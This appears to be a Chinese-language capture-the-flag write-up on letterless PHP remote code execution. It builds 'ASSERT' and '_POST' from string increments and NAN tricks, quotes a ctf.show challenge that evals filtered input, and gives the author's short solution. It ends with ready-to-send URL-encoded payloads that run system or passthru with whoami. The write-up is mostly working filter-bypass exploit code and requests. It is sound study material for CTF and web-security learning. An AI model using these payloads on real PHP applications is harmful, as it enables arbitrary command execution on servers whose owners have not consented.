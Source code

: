 ## **用自增实现无字母RCE**
前提能$符号

有如下
```
"A"++ ==> "B"
"B"++ ==> "C"
```
也就是说，如果我们能够得到"A"，那么我们就能通过自增自减，得到所有的字母。那么问题就转化为怎么得到一个字符"A"。
在PHP中如果强制连接数组和字符串的话，数组将被转换成字符串，其值为"Array"。
再取这个字符串的第一个字母，就可以获得"A"。
```
<?php
$a = ''.[];
var_dump($a);
```
组合
```
<?php
$_=[].'';   //得到"Array"
$___ = $_[$__];   //得到"A"，$__没有定义，默认为False也即0，此时$___="A"
$__ = $___;   //$__="A"
$_ = $___;   //$_="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$___ .= $__;   //$___="AS"
$___ .= $__;   //$___="ASS"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;   //得到"E"，此时$__="E"
$___ .= $__;   //$___="ASSE"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;   //得到"R"，此时$__="R"
$___ .= $__;   //$___="ASSER"
$__++;$__++;   //得到"T"，此时$__="T"
$___ .= $__;   //$___="ASSERT"
$__ = $_;   //$__="A"
$____ = "_";   //$____="_"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"P"，此时$__="P"
$____ .= $__;   //$____="_P"
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);   //ASSERT($POST[_])
```
缩减后
```
```

学习：<https://www.cnblogs.com/m1xian/p/18360023>
注意：执行的时候要进行一次 URL 编码+好，否则 Payload 无法执行。




^
## **如果允许0，可以更短**
还有1/_==INF，下划线也可快速构造NAN，如

```bash
	$a=_/_._;   // NAN_
```

如此，有`'N'==$a[0]`
N 跟 O 很近，构造 _POST，通过二次引用即 $\_POST[0](https://www.cnblogs.com/viistar/p/$_POST%5B_%5D); 可执行任意php代码。\
注意$a++; ++$a;的区别，建议先加再用。\
能用的短变量有`$_` 、`$__` 、`$_0` 三个.后面才知道还能用不可见字符替换php变量名称`$%ff`，这样就更短了。\
题目

```php
	<?php

	//本题灵感来自研究Y4tacker佬在吃瓜杯投稿的shellme时想到的姿势，太棒啦~。

	error_reporting(0);

	highlight_file(__FILE__);

	 

	if (isset($_POST['ctf_show'])) {

	    $ctfshow = $_POST['ctf_show'];

	    if (is_string($ctfshow) && strlen($ctfshow) <= 84) {

	        if (!preg_match("/[a-zA-Z1-9!'@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){

	            eval($ctfshow);

	        }else{

	            echo("Are you hacking me AGAIN?");

	        }

	    }else{

	        phpinfo();

	    }

	}
```

我的解法81位

```php
	<?php 

	$a=(_/_._)[0];// NAN 取 N

	$aa=++$a;// O

	$a0=++$a.$aa;// PO

	++$a/++$a;

	$a=_.$a0.=++$a.++$a;// _.POST

	$$a[0]($$a[_]);

	//var_dump($a);
```

去掉注释，php开头，替换a为下划线得

```powershell
	$_=(_/_._)[0];$__=++$_;$_0=++$_.$__;++$_/++$_;$_=_.$_0.=++$_.++$_;$$_[0]($$_[_]);
```

接下来url编码，post传`ctf_show=xxxxx&0=system&_=ls`，搞定！

ps: url编码的三种方法\
1.python 的from urllib import quote\
2.php的 echo urlencode\
3.burp suite 的decode 标签\
最短rce5长度72，以后通杀无字母数字！

```
ctf_show=$_=_(_/_)[_];$__=++$_;$$__[$__=_.++$_.$__[$_++/$_++].++$_.++$_]($$__[_]);&_POST=system&_=whoami

ctf_show=%24%5F%3D%5F%28%5F%2F%5F%29%5B%5F%5D%3B%24%5F%5F%3D%2B%2B%24%5F%3B%24%24%5F%5F%5B%24%5F%5F%3D%5F%2E%2B%2B%24%5F%2E%24%5F%5F%5B%24%5F%2B%2B%2F%24%5F%2B%2B%5D%2E%2B%2B%24%5F%2E%2B%2B%24%5F%5D%28%24%24%5F%5F%5B%5F%5D%29%3B&%5FPOST=system&%5F=whoami
```
```
ctf_show=%24_%3D(_%2F_._)%5B0%5D%3B%24__%3D%2B%2B%24_%3B%24__%3D_.%2B%2B%24_.%24__%3B%2B%2B%24_%3B%2B%2B%24_%3B%24__.%3D%2B%2B%24_.%2B%2B%24_%3B%24%24__%5B0%5D(%24%24__%5B_%5D)%3B&0=passthru&_=whoami
```